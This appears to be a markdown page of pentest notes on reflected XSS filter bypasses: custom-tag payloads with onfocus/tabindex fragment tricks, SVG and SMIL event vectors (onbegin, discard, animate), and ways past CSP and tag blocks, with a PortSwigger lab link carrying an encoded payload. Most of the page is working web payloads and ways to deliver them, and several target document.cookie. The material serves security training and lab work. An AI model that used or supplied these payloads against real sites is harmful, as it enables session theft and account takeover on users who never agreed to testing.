 ### Custom tags only (built-ins blocked)

When only custom elements are allowed (e.g., `<xss>`), use event handlers on the custom tag. To trigger focus-based handlers without user interaction, combine an element `id` with `tabindex` and a fragment identifier so the browser focuses it on load.

Example payloads (see `custom-tags-only.txt`):
- `<xss onmouseover=prompt(1)>x</xss>`
- `<xss onclick=prompt(1)>x</xss>`
- `<xss id=x tabindex=1 onfocus=alert(document.cookie)>#x</xss>`

How to deliver via URL (fragment focus trick):
- Place the element with `id=x` in the response, then request the page with `#x` so the UA attempts to focus it:
  - `?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)>#x` (URL-encode as needed)
- This technique is demonstrated in the PortSwigger lab “Reflected XSS into HTML context with all tags blocked except custom ones”
  - Reference: [PortSwigger Academy lab](https://0af0006004c110408073036000b9000d.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E%23x%27%3B)

Burp detection tips:
- Add Grep - Match for `id=`, `tabindex=`, `onfocus=` and confirm they aren’t encoded.
- In Render tab, confirm the element exists and is focusable; the fragment should scroll to it. If not, click or tab to trigger.
- If CSP blocks inline handlers, try mouse events (`onmouseover`, `onclick`) or sandboxed `iframe` permutations if allowed.

### SVG-only or restricted SVG events

If HTML tags are blocked but SVG is allowed, test a range of SVG tags and permissible events. Some environments allow only a subset of events (e.g., `onclick`, `onmouseover`, `onbegin`). Use `svg-restricted-events.txt` to probe:

- Auto/indirect execution candidates:
  - `<svg onload=...>`
  - `<image href=x onerror=...>`
  - `<discard onbegin=...>`
  - `<animate ... onbegin=...>` / `<set ... onbegin=...>`
  - `<use href=...>` with data URLs
- Interaction-based fallbacks:
  - Event handlers on geometry elements (`<rect>`, `<circle>`, `<path>`, `<text>`)
  - Pointer events: `onpointerenter`, `onpointerover`, `onclick`
  - Focus with `tabindex` on focusable elements
- Foreign content:
  - `<foreignObject>` can embed HTML; use `iframe srcdoc` if allowed

For additional vectors and browser nuances, see the PortSwigger XSS cheat sheet [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

Triggering SVG discard/SMIL events:
- `discard` fires its `onbegin` when its `begin` time occurs. Use `begin="0s"` for immediate or `begin="indefinite"` and call `element.beginElement()` from an allowed event (e.g., `onclick`). See examples in `svg-restricted-events.txt`.
- SMIL timing model supports event-based begins: `begin="target.click"` fires when element with `id=target` is clicked.
- For environments that disallow `onload`, prefer:
  - Immediate timers: `<animate begin="0s" dur="0.001s" onbegin=...>`
  - User-driven: `begin="indefinite"` and trigger with `beginElement()` via `onclick`/pointer events.
- If focus/keyboard events are allowed, add `tabindex=1` to focusable SVG elements and press a key to trigger `onkeydown/onkeyup` on the `<svg>` root.

